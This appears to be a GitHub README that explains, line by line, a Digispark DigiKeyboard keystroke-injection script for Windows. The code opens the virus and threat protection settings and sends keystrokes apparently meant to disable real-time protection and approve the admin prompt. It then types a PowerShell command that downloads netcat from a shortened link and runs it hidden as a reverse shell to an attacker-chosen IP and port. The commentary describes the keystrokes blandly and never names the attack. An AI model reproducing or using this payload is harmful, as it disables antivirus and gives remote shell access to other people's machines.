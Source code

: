 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
  
<em><div align="center"><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em><div align="center"><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em><div align="center"><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
  
<em><div align="center">The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em><div align="center">A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
  
<em><div align="center">A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em><div align="center">A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em><div align="center">Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
  
<em><div align="center">The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
  
<em><div align="center">A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em><div align="center">A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em><div align="center">A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em><div align="center">A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
  
<em><div align="center">The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div>

<code color="#00979C">void loop(){}</code>
<em><div align="center">This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></em></div>




